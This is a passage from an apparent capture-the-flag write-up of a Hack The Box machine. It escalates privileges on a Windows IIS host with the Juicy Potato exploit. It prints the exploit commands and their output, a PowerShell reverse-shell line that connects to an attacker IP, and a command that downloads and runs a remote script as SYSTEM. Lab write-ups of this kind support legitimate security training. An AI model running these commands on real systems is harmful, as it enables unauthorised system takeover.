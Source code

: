 ```cmd
c:\inetpub\wwwroot>Juicy.Potato.x86.exe -l 414 -p c:\windows\system32\cmd.exe -t * -c {03ca98d6-ff5d-49b8-abc6-03dd84127020}
Juicy.Potato.x86.exe -l 414 -p c:\windows\system32\cmd.exe -t * -c {03ca98d6-ff5d-49b8-abc6-03dd84127020}
Testing {03ca98d6-ff5d-49b8-abc6-03dd84127020} 414
......
[+] authresult 0
{03ca98d6-ff5d-49b8-abc6-03dd84127020};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

c:\inetpub\wwwroot>whoami
whoami
iis apppool\web
```

It seemed to work, but didn't pop us out a shell as SYSTEM. I think this may be because it launches the process, but does so in the background - on the [Github](https://github.com/ohpe/juicy-potato) we can see it opening a separate command shell. So maybe we need to send ourselves a shell instead.

I considered using a [[Reverse Shells#Powershell|powershell reverse shell]], but didn't know how Juicy Potato would handle the flags and quotation marks - so I just searched "juicy potato reverse shell".

[This hacktricks page](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/juicypotato) had a few examples - I could use `nc.exe` if I uploaded a shell to the box, but there was an equally nice [powershell example](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/juicypotato#powershell-rev).

I copied across a `minirev.ps1` script I'd used previously (download [here](https://gist.github.com/staaldraad/204928a6004e89553a8d3db0ce527fd5)), and edited the connection details:

```powershell
$socket = new-object System.Net.Sockets.TcpClient('10.10.16.211', 414);
```

I served it:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/devel/www]
└─$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

And used this command:

```bash
c:\inetpub\wwwroot>Juicy.Potato.x86.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://10.10.16.211:8080/minirev.ps1')" -t * -c {03ca98d6-ff5d-49b8-abc6-03dd84127020}
Juicy.Potato.x86.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://10.10.16.211:8080/minirev.ps1')" -t * -c {03ca98d6-ff5d-49b8-abc6-03dd84127020}
Testing {03ca98d6-ff5d-49b8-abc6-03dd84127020} 1337
......
[+] authresult 0
{03ca98d6-ff5d-49b8-abc6-03dd84127020};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```
